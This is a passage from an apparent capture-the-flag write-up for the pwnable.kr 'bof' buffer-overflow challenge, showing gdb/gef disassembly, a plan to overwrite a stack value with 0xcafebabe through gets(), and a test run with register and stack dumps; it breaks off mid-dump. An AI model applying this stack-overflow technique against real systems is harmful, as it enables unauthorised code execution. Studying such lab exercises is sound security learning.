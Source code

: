    0x5655566b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:	call   0x56555673 <func+71>
   0x56555677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:	je     0x56555688 <func+92>
   0x56555683 <+87>:	call   0x56555684 <func+88>
   0x56555688 <+92>:	leave
   0x56555689 <+93>:	ret
End of assembler dump.
gef➤
```

The comparison happens at ebp+0x8
```
cmp    DWORD PTR [ebp+0x8],0xcafebabe). That's what we want to overwrite with 0xcafebabe.
```
Let's set a break point at that instruction. Then run and give it 100 bytes and see if we hit ebp+8.

```
gef➤  r <<< $(python2 -c "print 'a'*100")
Starting program: /home/kin/pwnable.kr/bof <<< $(python2 -c "print 'a'*100")
overflow me :

Breakpoint 1, 0x56555654 in func ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd33c  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$ebx   : 0x0
$ecx   : 0xf7f83540  →  0xfbad2088
$edx   : 0xfbad2088
$esp   : 0xffffd320  →  0xffffd33c  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$ebp   : 0xffffd368  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$esi   : 0xf7f82e1c  →  0x001edd2c
$edi   : 0xf7f82e1c  →  0x001edd2c
$eip   : 0x56555654  →  <func+40> cmp DWORD PTR [ebp+0x8], 0xcafebabe
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd320│+0x0000: 0xffffd33c  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"     ← $esp
0xffffd324│+0x0004: 0x00000000
0xffffd328│+0x0008: 0xf7ffcfcc  →  0x0002cf04
0xffffd32c│+0x000c: 0x00000000
0xffffd330│+0x0010: 0x00000000
0xffffd334│+0x0014: 0x56555530  →  <_start+0> xor ebp, ebp
0xffffd338│+0x0018: 0x00001000
0xffffd33c│+0x001c: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x56555647 <func+27>        mov    esp, DWORD PTR [ecx-0x762bba73]
   0x5655564d <func+33>        add    al, 0x24
   0x5655564f <func+35>        call   0xf7e05880 <gets>
●→ 0x56555654 <func+40>        cmp    DWORD PTR [ebp+0x8], 0xcafebabe
   0x5655565b <func+47>        jne    0x5655566b <func+63>
   0x5655565d <func+49>        mov    DWORD PTR [esp], 0x5655579b
   0x56555664 <func+56>        call   0xf7dda6e0 <system>
   0x56555669 <func+61>        jmp    0x56555677 <func+75>
   0x5655566b <func+63>        mov    DWORD PTR [esp], 0x565557a3